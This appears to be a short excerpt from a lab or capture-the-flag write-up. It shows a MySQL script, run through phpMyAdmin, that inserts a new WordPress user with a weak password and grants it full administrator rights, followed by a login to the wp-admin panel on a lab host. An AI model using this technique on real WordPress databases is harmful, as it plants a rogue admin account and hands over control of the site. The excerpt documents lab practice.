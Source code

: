 - WordPress user roles: https://wordpress.org/support/article/roles-and-capabilities/
- More info about WordPress user roles: https://kinsta.com/blog/wordpress-user-roles/
- WordPress user role strings: https://gist.github.com/octalmage/d748456cfd48db849207
- WordPress user role levels: https://codex.wordpress.org/User_Levels

```mysql
SET @user_login := 'bubba';
SET @user_pass  := 'bubba';
SET @user_email := 'bubba@bubba.com';

# create user
INSERT INTO `wp_users`
(`user_login`, `user_pass`, `user_email`, `user_registered`)
VALUES
(@user_login, MD5(@user_pass), @user_email, now());
SELECT @user_id := LAST_INSERT_ID();

# make the user an Admin
INSERT INTO `wp_usermeta`
(`user_id`, `meta_key`, `meta_value`)
VALUES
(@user_id, 'wp_capabilities', 'a:1:{s:13:"administrator";b:1;}');

# give the Admin user full privileges 
INSERT INTO `wp_usermeta`
(`user_id`, `meta_key`, `meta_value`)
VALUES
(@user_id, 'wp_user_level', '10');
```

After running this SQL in the phpmyadmin panel, it is now possible to login to the WordPress admin panel at `http://10.10.10.37/wp-admin` :happy:!
